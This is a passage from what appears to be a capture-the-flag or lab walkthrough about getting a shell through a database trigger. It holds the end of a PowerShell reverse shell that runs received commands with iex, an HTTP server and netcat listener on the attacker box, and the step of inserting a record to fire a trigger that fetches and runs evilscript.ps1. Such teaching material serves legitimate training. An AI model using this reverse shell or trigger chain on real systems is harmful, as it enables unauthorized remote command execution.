$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
```

$stream.Write($sendbyte,0,$sendbyte.Length);

$stream.Flush()

};

$client.Close()

- We will need to open two terminals to handle the connections involved in this exploit:

- The trigger will perform the first connection to download and execute evilscript.ps1. Our trigger is using port 8000 for that.

- The second connection will be a reverse shell on port 4454 back to our attacker machine.

| :python3 -m http.server Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... | AttackBox<br>user@AttackBox$nc-lvp 4454Listening on 0.0.0.0 4454 |
| --- | --- |

With all that ready, let's navigate from the attacker machine to the IP of the target macine < http://10.10.119.136/> and insert an employee into the web application. Since the web application will send an INSERT statement to the database, our TRIGGER will provide us access to the system's console.
